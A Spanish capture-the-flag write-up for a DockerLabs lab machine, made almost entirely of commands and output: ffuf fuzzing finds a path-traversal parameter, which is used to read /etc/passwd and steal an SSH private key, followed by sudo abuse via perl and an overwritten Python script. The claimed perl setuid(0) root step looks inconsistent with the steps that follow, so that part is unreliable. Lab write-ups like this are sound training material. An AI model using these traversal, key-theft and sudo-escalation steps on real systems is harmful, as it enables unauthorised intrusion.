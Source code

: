 # Write-up - Path Traversal y Escalada con Python

**Sitio:** DockerLabs  
**Dificultad:** Fácil  
**Fecha:** 19/06/2025  
**Aprendizaje:**  
- Reforzar el uso de `ffuf` y ataques de Path Traversal.  
- Prestar atención a detalles en páginas web para obtener pistas.  
- Búsqueda y utilización de claves SSH.  
- Uso de `chmod` y escaladas mediante `python`.  
- Creación y modificación de scripts para escalar privilegios.

---

## Enumeración y acceso inicial

### 1. Escaneo de puertos

`sudo nmap -sSV -O --open 172.17.0.2`

> Resultado:

21/tcp open ftp `vsftpd 3.0.5`  
22/tcp open ssh `OpenSSH 9.6p1 Ubuntu`  
80/tcp open http `Apache 2.4.58`  
OS detectado: `Linux`  

### 2. Enumeración de directorios

`gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/rockyou.txt -x php,html,txt -q -b 404,403`

> Rutas encontradas:

* `/assets` con un `background.jpg` sin contenido oculto útil.

### 3. Fuzzing + Path Traversal con ffuf

`ffuf -u http://172.17.0.2/index.php?FUZZ=../../../../../etc/passwd -w /usr/share/wordlists/dirb/common.txt -fc 200`

> Parámetro encontrado: `secret`  
> Prueba exitosa:  

`http://172.17.0.2/index.php?secret=../../../../../etc/passwd`  

> Resultado:  

`/root:/root:/bin/bash`  
`/home/luisillo:/bin/sh`  
`/home/vaxei:/bin/bash`  

## Obtención y uso de clave SSH  

### 4. Acceso a clave privada SSH de vaxei  

`http://172.17.0.2/index.php?secret=../../../../../home/vaxei/.ssh/id_rsa`  

> Se copia y guarda como `vaxei_clave_ssh`  

### 5. Asignación de permisos correctos  

`chmod u+rw,g-rw,o-rw vaxei_clave_ssh`  

### 6. Acceso vía SSH  

`ssh -l vaxei -i vaxei_clave_ssh 172.17.0.2`  

> Acceso concedido como `vaxei`  

## Escalada de privilegios  

### 7. Revisión de sudo como vaxei  

`sudo -l`  

> Resultado:  
> `(luisillo) NOPASSWD: /usr/bin/perl`  

### 8. Cambio a usuario luisillo  

`sudo -u luisillo /usr/bin/perl -e 'exec "/bin/sh";'`  

> Shell como `luisillo` (usuario común)  

### 9. Escalada total con setuid()  

`sudo -u luisillo /usr/bin/perl -e 'use POSIX qw(setuid); setuid(0); exec "/bin/bash";'`  

> Acceso root conseguido  

### 10. Revisión final de sudo  

`sudo -l`  

> Resultado:   
> `(ALL) NOPASSWD: /usr/bin/python3 /opt/paw.py`  

### 11. Sustitución del script en /opt  

cd /opt  
rm -rf paw.py  

cat << EOF > paw.py  
#!/usr/bin/env python3  
import subprocess  
subprocess.run(["/bin/bash"])  
EOF  

### 12. Ejecución final  

`sudo /usr/bin/python3 /opt/paw.py`  

> `whoami = root`
